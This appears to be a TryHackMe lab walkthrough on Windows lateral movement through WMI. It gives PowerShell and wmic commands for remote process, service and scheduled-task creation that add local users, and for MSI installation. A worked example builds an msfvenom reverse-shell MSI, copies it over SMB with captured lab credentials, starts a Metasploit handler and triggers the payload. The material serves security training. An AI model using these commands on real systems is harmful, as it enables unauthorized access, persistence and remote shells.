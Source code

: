 We can also perform many techniques discussed in the previous task differently by using Windows Management Instrumentation (WMI). WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.

## Connecting to WMI From Powershell
Before being able to connect to WMI using Powershell commands, we need to create a *PSCredential* object with our user and password. This object will be stored in the `$credential` variable.

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then proceed to establish a WMI session using either of the following protocols:
- ***DCOM*:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
- ***Wsman*:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session on the `$Session` variable, which we will use throughout the room on the different techniques:
```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName {TARGET} -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol. The options and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.


## Remote Process Creation Using WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
- **Required Group Memberships:** Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Note:
	 WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:
```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:{TARGET} process call create "cmd.exe /c calc.exe" 
```

## Remote Services Creation with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

We can get a handle on the service and start it with the following commands:
```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

 We can stop and delete the service with the following commands:
 ```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

## Remote Scheduled Tasks Creation with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:
```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add" # Your payload

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:
  ```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

## Installing MSI packages through WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:
```shell-session
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```


## Example
To complete this exercise, you will need to connect to *THMJMP2* using the credentials assigned to you. Once you have your credentials, connect to *THMJMP2* via SSH:
`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:
- **User:** ZA.TRYHACKME.COM\t1_corine.waters
- **Password:** Korine.1994

We'll show how to use those credentials to move laterally to THM-IIS using *WMI* and *MSI* packages. Feel free to try the other methods presented during this task.

We will start by creating our *MSI* *payload* with msfvenom from our attacker machine:
```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST={lateralmovement} LPORT={4445} -f msi > {myinstaller.msi}
```

We then copy the payload using *SMB* or any other method available:
```shell-session
user@AttackBox$ smbclient -c 'put {myinstaller.msi}' -U {t1_corine.waters} -W ZA '{//thmiis.za.tryhackme.com/admin$/}' {Korine.1994}
```

Since we copied our payload to the *ADMIN$* share, it will be available at `C:\Windows\` on the server. 

We start a handler to receive the reverse shell from Metasploit:
```shell-session
msf6 exploit(multi/handler) > set LHOST {lateralmovement}
msf6 exploit(multi/handler) > set LPORT {4445}
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit 
```

Let's start a *WMI* session against *THMIIS* from a Powershell console:

THMJMP2: Powershell
```shell-session
PS C:\> $username = '{t1_corine.waters}';
PS C:\> $password = '{Korine.1994}';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName {thmiis.za.tryhackme.com} -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

We then invoke the Install method from the *Win32_Produc*t class to trigger the payload:

THMJMP2: Powershell
```shell-session
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\{myinstaller.msi}"; Options = ""; AllUsers = $false}
```
